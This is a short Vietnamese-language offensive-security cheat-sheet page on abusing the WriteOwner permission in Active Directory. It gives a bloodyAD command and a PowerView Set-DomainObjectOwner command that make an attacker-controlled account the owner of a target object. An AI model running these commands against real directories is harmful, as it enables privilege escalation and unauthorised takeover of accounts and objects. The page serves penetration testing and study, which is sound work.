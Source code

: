 # WriteOwner

Thay đổi chủ sở hữu của đối tượng mục tiêu trong Active Directory để kiểm soát hoàn toàn đối tượng, cho phép thực hiện mọi thao tác trên đối tượng.

#### Windows/Linux

{% code overflow="wrap" %}

```
bloodyAD --host <dc_ip> -d <domain> -u <attackeruser> -p '<pass>' set owner <targetobject> <attackeruser>
```

{% endcode %}

#### Windows Only

{% code overflow="wrap" %}

```
Set-DomainObjectOwner -Identity '<targetobject>' -OwnerIdentity '<controlledprincipal>'
```

{% endcode %}
